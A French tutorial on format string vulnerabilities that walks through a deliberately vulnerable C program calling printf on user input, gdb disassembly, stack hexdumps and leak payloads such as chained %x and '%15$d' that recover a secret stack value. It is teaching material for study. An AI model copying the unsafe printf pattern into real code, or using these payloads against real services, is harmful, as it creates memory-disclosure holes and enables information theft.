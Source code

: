 # Format String 

Pour illustrer, prenons un exemple simple et essayons d'afficher la valeur de `secret`

```c
long secret = rand();
char buf[64];

printf("Votre nom: ");
fgets(buf, sizeof(buf), stdin);
printf("Bonjour, ");
printf(buf);
```

Regardons si un leak est possible

```bash
└─$ ./printf-leak
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 359a06bf 4
```

Ouvrons gdb et mettons un break juste apres le printf de notre buffer, pour voir à quoi correspondent les leaks

```sh
└─$ gdb printf-leak
# ...
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401146 <+0>:	push   rbp
   0x0000000000401147 <+1>:	mov    rbp,rsp
   0x000000000040114a <+4>:	sub    rsp,0x50
   0x000000000040114e <+8>:	call   0x401050 <rand@plt>
   0x0000000000401153 <+13>:	cdqe
   0x0000000000401155 <+15>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401159 <+19>:	lea    rax,[rip+0xea4]        # 0x402004
   0x0000000000401160 <+26>:	mov    rdi,rax
   0x0000000000401163 <+29>:	mov    eax,0x0
   0x0000000000401168 <+34>:	call   0x401030 <printf@plt>
   0x000000000040116d <+39>:	mov    rdx,QWORD PTR [rip+0x2ebc]        # 0x404030 <stdin@GLIBC_2.2.5>
   0x0000000000401174 <+46>:	lea    rax,[rbp-0x50]
   0x0000000000401178 <+50>:	mov    esi,0x40
   0x000000000040117d <+55>:	mov    rdi,rax
   0x0000000000401180 <+58>:	call   0x401040 <fgets@plt>
   0x0000000000401185 <+63>:	lea    rax,[rip+0xe84]        # 0x402010
   0x000000000040118c <+70>:	mov    rdi,rax
   0x000000000040118f <+73>:	mov    eax,0x0
   0x0000000000401194 <+78>:	call   0x401030 <printf@plt>
   0x0000000000401199 <+83>:	lea    rax,[rbp-0x50]
   0x000000000040119d <+87>:	mov    rdi,rax
   0x00000000004011a0 <+90>:	mov    eax,0x0
   0x00000000004011a5 <+95>:	call   0x401030 <printf@plt>
   0x00000000004011aa <+100>:	mov    eax,0x0
   0x00000000004011af <+105>:	leave
   0x00000000004011b0 <+106>:	ret
End of assembler dump.
```

Ici on peut voir que le printf de notre buffer se trouve à `main+95` donc mettons notre break juste apres et lançons-le 

```sh
gef➤  b *main+100
Breakpoint 1 at 0x4011aa
gef➤  run
Starting program: /[...]/printf-leak 
#...
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 4056bf 4
```

Si on affiche la stack, regardons à quoi ces valeurs correspodent

```sh
gef➤  hexdump byte $sp -s 240
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
0x00007fffffffdb80     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb90     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 67 45 8b 6b 00 00 00 00    ........gE.k....
0x00007fffffffdbc0     01 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 46 11 40 00 00 00 00 00    ........F.@.....
0x00007fffffffdbe0     40 00 40 00 01 00 00 00 d8 dc ff ff ff 7f 00 00    @.@.............
0x00007fffffffdbf0     d8 dc ff ff ff 7f 00 00 3b 7a 00 15 7f 0d 01 d2    ........;z......
0x00007fffffffdc00     00 00 00 00 00 00 00 00 e8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc10     00 d0 ff f7 ff 7f 00 00 f0 3d 40 00 00 00 00 00    .........=@.....
0x00007fffffffdc20     3b 7a a2 a2 80 f2 fe 2d 3b 7a 42 4f c4 e2 fe 2d    ;z.....-;zBO...-
0x00007fffffffdc30     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdc40     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc50     01 00 00 00 00 00 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
```

Rien n'apparait, regardons plus haut dans la stack

```sh
gef➤  hexdump byte $sp-224 -s 240
0x00007fffffffda90     30 00 00 00 30 00 00 00 70 db ff ff ff 7f 00 00    0...0...p.......
0x00007fffffffdaa0     b0 da ff ff ff 7f 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
0x00007fffffffdab0     00 00 00 00 00 00 00 00 42 6f 6e 6a 6f 75 72 2c    ........Bonjour,
0x00007fffffffdac0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdad0     bf 56 40 00 00 00 00 00 04 00 00 00 00 00 00 00    .V@.............
0x00007fffffffdae0     00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdaf0     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdb00     e0 88 f9 f7 ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb10     70 db ff ff ff 7f 00 00 00 d0 ff f7 ff 7f 00 00    p...............
0x00007fffffffdb20     f0 3d 40 00 00 00 00 00 0a ea e2 f7 ff 7f 00 00    .=@.............
0x00007fffffffdb30     40 00 00 00 00 00 00 00 34 56 df f7 ff 7f 00 00    @.......4V......
0x00007fffffffdb40     ff ff ff ff 67 45 8b 6b d8 dc ff ff ff 7f 00 00    ....gE.k........
0x00007fffffffdb50     c0 db ff ff ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb60     e8 dc ff ff ff 7f 00 00 aa 11 40 00 00 00 00 00    ..........@.....
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
```

On peut alors voir notre `4056bf`, suivi du `04`.
Un peu plus haut le `6a6e6f42`.

Comme expliqué, le `%x` affiche les valeurs sur 4 octets donc par exemple il est impossible de récupérer `2c72756f` sans faire de `%lx`, le `l` permettant d'afficher les valeurs en 8 octets bits.

Donc pour revenir à notre exemple:
`0x..dab8` -> `6a6e6f42`
`0x..dac0` -> `0`
`0x..dac8` -> `0`
`0x..dad0` -> `4056fb`
`0x..dad8` -> `4`

Comme repéré precedement, notre `secret` se trouve en `$rbp-0x8` or `$rbp   : 0x00007fffffffdbc0` donc notre secret est ici stocké en `0x..dbb8` ce qui est bien plus bas dans la stack.
En tentant avec plus de `%x` nous pouvons voir que la 15eme valeur correspond à celle présente en `0x..dbb8` visible dans le hexdump:

```sh
Votre nom: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 4056dd 4 25207825 20782520 78252078 25207825 20782520 78252078 0 f7fe5030 0 6b8b4567

gef➤  hexdump byte $sp -s 112
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 20 25    %x %x %x %x %x %
0x00007fffffffdb80     78 20 25 78 20 25 78 20 25 78 20 25 78 20 25 78    x %x %x %x %x %x
0x00007fffffffdb90     20 25 78 20 25 78 20 25 78 20 25 78 0a 00 00 00     %x %x %x %x....
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 67 45 8b 6b 00 00 00 00    ........gE.k....
0x00007fffffffdbc0     02 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 46 11 40 00 00 00 00 00    ........F.@.....
```

Il nous reste plus qu'a récuperer cette valeur sous forme d'entier grâce à `%d`

```sh
└─$ ./printf-leak
Votre nom: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %d 
Bonjour, 6a6e6f42 0 0 aa6e6de 4 25207825 20782520 78252078 25207825 20782520 64252078 0 67fa4030 0 1804289383
```

Ou plus simplement dans le cas où l'on connait l'index (15 ici) de la valeur, `%15$d` est plus direct, et indispensable dans le cas d'un buffer petit pour notre input.

```sh
└─$ ./printf-leak
Votre nom: %15$d
Bonjour, 1804289383
```

__Rappel:__ `%<index>$<format>`